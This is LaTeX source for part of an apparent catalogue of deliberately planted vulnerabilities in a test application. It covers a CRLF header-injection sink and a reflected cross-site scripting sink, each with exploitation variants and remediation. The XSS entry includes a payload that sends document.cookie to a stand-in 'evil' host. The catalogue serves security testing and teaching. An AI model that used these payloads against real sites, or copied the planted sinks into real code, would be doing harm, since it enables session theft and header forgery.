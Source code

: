 \documentclass[11pt,a4paper]{article}
\begin{document}
\noindent\textbf{Planted sink:}
\begin{lstlisting}
resp.headers["Content-Disposition"] = "attachment; filename=" + filename
\end{lstlisting}
\noindent\textbf{What it is.} CRLF injection: carriage-return/line-feed sequences from input are written into a protocol stream.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Inject `\%0d\%0a` to forge headers, split responses, or poison logs.
\item Add extra headers/set-cookie or smuggle a second response.
\end{itemize}
\noindent\textbf{Remediation.} Strip/reject CR and LF from any value used in headers, logs, or protocol fields.

\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-67: CWE-79: Cross-Site Scripting}
\noindent\textbf{Location:} \texttt{src/vulnapp/advanced\_injection\_vulns.py}, line 55 \quad \textbf{Rule:} \texttt{python/cross-site-scripting} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/79.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return Response(body, mimetype="text/html")
\end{lstlisting}
\noindent\textbf{What it is.} Cross-site scripting: untrusted input is reflected into HTML/JS without encoding.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Reflected: `?q=<script>document.location='//evil/'+document.cookie</script>` to steal sessions.
\item Use event handlers/`<img onerror>` when `<script>` is filtered.
\item Escalate to keylogging, CSRF token theft, or full account takeover.
\end{itemize}
\noindent\textbf{Remediation.} Context-aware output encoding (HTML/attr/JS/URL); use a template engine that auto-escapes and set CSP.
\end{document}
